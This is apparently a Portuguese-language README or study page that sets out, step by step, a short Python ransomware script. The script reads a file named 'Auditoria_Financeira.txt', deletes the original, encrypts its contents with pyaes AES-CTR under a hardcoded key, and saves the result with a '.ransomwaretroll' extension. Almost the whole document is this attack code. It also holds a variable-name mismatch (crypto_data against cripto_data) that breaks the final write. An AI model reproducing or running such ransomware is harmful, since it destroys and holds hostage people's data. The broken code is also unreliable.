 ## Arquivo com comando do Python para criptografar.

- import os
- import pyaes

### Abrir o arquivo a ser criptografado

- file_name = 'Auditoria_Financeira.txt'
- file = open(file_name, 'rb')
- file_data = file.read()
- file.close()

### Remover o arquivo original

- os.remove(file_name)

### Definir a chave de encriptação

- key = b"cryptoransowares"
- aes = pyaes.AESModeOfOperationCTR(key)

### Criptografar o arquivo

- crypto_data = aes.encrypt(file_data)

### Salvar o arquivo criptografado

- new_file = file_name + '.ransomwaretroll'
- new_file = open(f'{new_file}','wb')
- new_file.write(cripto_data)
- new_file.close()